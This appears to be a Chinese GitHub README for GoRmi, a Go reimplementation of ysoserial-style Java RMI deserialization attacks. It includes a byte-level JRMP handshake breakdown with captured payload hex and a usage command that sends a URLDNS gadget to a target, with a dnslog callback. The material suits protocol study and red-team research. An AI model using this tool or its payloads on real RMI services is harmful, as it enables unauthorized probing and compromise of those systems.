

# GoRmi

## 介绍

该项目是通过go语言实现防止rmi利用被反置的问题。[反序列化小子捕获器-反制ysoserial](https://mp.weixin.qq.com/s?__biz=MzIxNDAyNjQwNg==&mid=2456098663&idx=1&sn=fc048826005d4786ab56679861b1c43d&chksm=803c66aeb74befb88fc8e2f5e51853f33cc207ceaa1208936b1d9892a77cf3bdeb33b884f6b1&mpshare=1&scene=23&srcid=12291XhDYwX8icWSjvPyf5zl&sharer_sharetime=1640758586260&sharer_shareid=33a823b10ae99f33a60db621d83241cb#rd)

通过简单的协议分析。



```java
client--->server
    4a524d4900024b
    length:7
Header:
    0x4a 0x52 0x4d 0x49 Version Protocol
Version:
    0x00 0x01
Protocol:
    StreamProtocol
    SingleOpProtocol
    MultiplexProtocol
StreamProtocol:
    0x4b
SingleOpProtocol:
    0x4c
MultiplexProtocol:
    0x4d
    
server--->client
	4e00093132372e302e302e310000xxxx  随机 为客户端的随机port
	length:16
	
client--->server
	000b 31302e32332e37312e3334 00000000      11	
	前面2个字节是后面ip的长度16进置
	xx ip xxxx
	length:17
(yso中带的)
50aced00057722000000000000000000000000000000000000000000000000000144154dc9d4e63bdf
length:41
	
server--->client
51aced0005770f01e4d810120000017e0572075e8004757200135b4c6a6176612e6c616e672e537472696e673badd256e7e91d7b470200007078700000000274000c48656c6c6f5365727669636574001270776e656433373233303338373837303030

client--->server
52

server--->client
53

client--->server
恶意数据
```

## 使用

在cli文件夹中进行编译，然后就可以利用

```
GoRmi.exe --ip 127.0.0.1 --port 9001 --payload urldns  --cmd "http://wb72qk.dnslog.cn"
```

项目中是通过二进制数据实现的gadgets，所以有一部分gadget不好构造(太懒了)，所以就没有全部完成。感兴趣的师傅可以进行pr操作。

谢谢！！！

## 特别说明

因为自己不擅长go语言，所以参考了大哥4ra1n的[Gososerial](https://github.com/EmYiQing/Gososerial)项目，并且在atao大哥的帮助下完成了该项目。

可能你感觉代码写的非常垃圾，确实是这样的，不过还是希望帮助到你。

## 最后
**如果感觉不错，希望给出你宝贵的star。**
